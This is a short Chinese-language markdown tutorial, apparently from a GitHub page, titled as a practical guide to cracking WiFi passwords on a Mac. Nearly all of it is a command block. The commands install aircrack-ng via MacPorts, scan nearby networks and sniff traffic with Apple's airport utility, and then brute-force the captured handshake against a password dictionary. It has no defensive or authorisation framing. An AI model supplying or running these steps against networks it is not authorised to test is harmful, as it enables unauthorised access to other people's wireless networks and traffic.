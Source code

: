 # Wifi密碼破解實戰-Mac

## 事前準備
- 密碼字典
- 安裝MacPorts

## 所需指令
```js
sudo port selfupdate #更新
sudo port install aircrack-ng #更新
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/A/Resources/airport -s #取得Wifi資訊
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/A/Resources/airport en0 sniff 監聽口 #開始監聽
sudo aircrack-ng /tmp/終端機會輸出檔案名.cap #檢查監聽輸出的檔案
cd  ~/你的Wifi/字典路徑 #定位到字典路徑
sudo aircrack-ng -w 字典名稱.txt /tmp/終端機會輸出檔案名.cap #破解密碼
```

資料來源：https://www.cnblogs.com/hzxll/p/16271446.html
